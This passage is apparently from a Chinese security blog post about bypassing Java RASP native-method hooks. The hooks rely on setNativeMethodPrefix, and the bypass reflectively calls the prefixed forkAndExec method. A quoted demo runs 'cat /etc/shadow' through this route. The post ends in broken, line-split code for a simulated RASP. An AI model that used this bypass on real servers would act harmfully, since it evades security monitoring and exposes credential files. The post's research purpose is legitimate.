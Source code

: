 
# Bypass RASP NativeMethodPrefix学习

原创 yzddMr6

[↓↓↓](javascript:)  
  
网络安全回收站  
  
[↑↑↑](javascript:)

*2023-12-28 18:06* *发表于浙江*

## 背景

众所周知，Java的RASP是没有办法直接Hook Native方法的，但确实有这个场景的需求。于是JDK官方出了一个java.lang.instrument.Instrumentation#setNativeMethodPrefix，在Java方法映射C++方法的时候加一个前缀，这样相当于创建一个了原有Native方法的代理，从而实现了Hook Native方法。

jrasp应该是最早公开介绍该技术用于RASP防御的（经su18师傅提醒，严谨一些）：https://www.jrasp.com/guide/technology/native\_method.html。

但是当攻击者有一定代码执行权限的时候，还是可以绕过。以命令执行来说，原来的Native方法为forkAndExec，加个前缀变成prefixforkAndExec，那么我们只需要反射调用prefixforkAndExec这个新的方法名即可。

turn1tup师傅给出了一个绕过的demo，核心逻辑为通过反射拿到真正的native方法，即可绕过RASP对于命令执行的hook:https://github.com/turn1tup/JvmRaspBypass/blob/main/src/main/java/com/test/RaspExample.java

```plain
try {
    Class<?> clazz = Class.forName("java.lang.UNIXProcess");

    //cmd2,bypass jrasp native hook
    for (Method m : clazz.getDeclaredMethods()) {
        if (m.getName().endsWith("forkAndExec")&&!m.getName().equals("forkAndExec")) {
            m.setAccessible(true);
            System.out.println("prefix native method : "+m.getName());
            Cmd.linuxCmd(new String[]{"/bin/bash","-c","cat /etc/shadow && touch /tmp/shadow2"},m);
        }
    }
} catch (Exception ignore) {
    ignore.printStackTrace();
}
```

最近在实际攻防中发现该方式挺有用的，因此本人进行扩展，实现了一个Win/Linux下通用的，自动绕过MethodPrefix的，可回显的，反射Native方法执行命令的JSP Demo。

## 搞一个简单的RASP

为了测试，先模拟一个setNativeMethodPrefix的RASP，参考 https://www.secrss.com/articles/49044，主要逻辑为： 1.移除想要hook的native方法。 2.增加一个native方法，这个方法和hook的native方法除了方法名增加prefix，其他相同。 3.增加一个和hook native方法同名的java方法（除了native modifier之外其他和hook native 方法相同），其中返回时调用prefix native方法。 这里为了简单起见直接throw Exception，把命令执行给干掉。

核心代码如下：

```plain
public

static

byte
[]
 transformed
()

{

ClassPool
 pool
```